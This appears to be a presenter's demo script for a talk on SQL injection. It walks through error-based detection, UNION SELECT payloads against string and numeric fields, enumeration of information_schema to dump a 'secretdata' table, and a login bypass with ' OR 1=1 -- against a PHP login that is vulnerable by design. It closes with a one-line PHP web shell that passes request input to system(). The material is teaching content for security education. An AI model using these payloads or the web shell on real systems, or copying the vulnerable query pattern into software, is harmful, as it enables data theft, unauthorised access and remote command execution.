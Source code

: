 # Error Based: SQL Injection into String Field

Check for error based SQL Injection by using a single-quote:

```'```

When the app has verbose error messages you will easily find a Syntax error.

When the app does not have verbose error messages check for visual changes such as a table not rendering. Alternatively 
are timing or logic based techniques for "blind" SQL Injection. Not covering those today.

## Data Extraction: Get something we are not entitled to see

UNION SELECT statements can return data from additional tables or locations.

The syntax of a "UNION SELECT" requires knowledge of the number of columns in the original query.


```' ORDER BY n```

```' ORDER BY n--```

Check for errors or behaviours indicating the query failed. Find the highest number "n" which does not trigger an error.

In this case the original query had three columns. So we need to use a "UNION SELECT" with three columns:

```
' UNION SELECT null, null, null--
' UNION SELECT 'a', 'b', 'c'--
' OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

These should be valid and add a row to the results table. 

Lets prove we can extract information an attacker should not know which can be of use to them:

```
' UNION SELECT null, @@version, null--
```

You can get lots of useful information using this technique.

Demo over. *Back to slides.

# Error Based: SQL Injection into Numeric Field

String datatypes are wrapped in single-quotes but numeric fields are not.
We can still check for SQL Injection by adding a single-quote to an input field since it would trigger a syntax error.
So lets try this again:

```'```

Again, for error based SQL injection this will do well. We are not covering blind injection tonight.

Exploitation is similar to string fields but we do not need to add our own single quotes. So our payloads from before 
are now:

```
40 UNION SELECT null, null, null--
40 UNION SELECT 'a', 'b', 'c'--
40 OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

The difference is we need to set a value to the original numeric field or it will trigger an error. So we start each
injection with a valid integer.

So far, same old same.

## Data Extraction: Data from another table

First find the name of other database tables. In MYSQL that means asking the "information_schema.tables" table:

```
40 UNION SELECT null, table_schema, table_name FROM information_schema.tables --
```

Oh snap, what is that "appdata.secretdata" table all about? Sounds juicy.
To get something from it it helps to know the column names used in the table:

```
40 UNION SELECT null, TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='secretdata'
```

The table has only two columns "id", and "secretdata". And lets dump the secrets!

```
40 UNION SELECT id, secret, null from secretdata
```

You can enumerate and read all information stored in the database using these techniques.

Demo over. *Back to slides.

# Error Based: Authentication Bypass

We have shown data extraction so far. The definition of SQL Injection said "Allow an attacker to alter the intended logic"
That is a broad statement and you get some cool tricks like being able to bypass authentication IF the login form is 
vulnerable to SQL Injection.

The following shows example source code for a login form:

```php
$user = $_POST['username'];
$pass = $_POST['password'];

$sql = "select * from users where username='" . $user . "' and password='" . $pass ."'";
$result=mysqli_query($conn, $sql) or die($conn->error);
```

The username and password fields come from an HTTP request issued by the user.
The values are not subjected to any input validation before they are then added into the SQL query and executed.

Most login forms operate using a statement like this:

```
SELECT * FROM users WHERE username='<user>' AND password='<pass>'
```

If we can inject into the username location we can use magic to login as any user we want without knowing any passwords.

```
PAYLOAD: ' OR 1=1 --
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='<pass>'
```

We are in! It seems to say we are "admin" too, result!

Demo over. *Back to slides. 

## Web shell via "INTO OUTFILE"



Simplest single line web shell I care to use:

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

Sauce: https://gist.github.com/sente/4dbb2b7bdda2647ba80b

a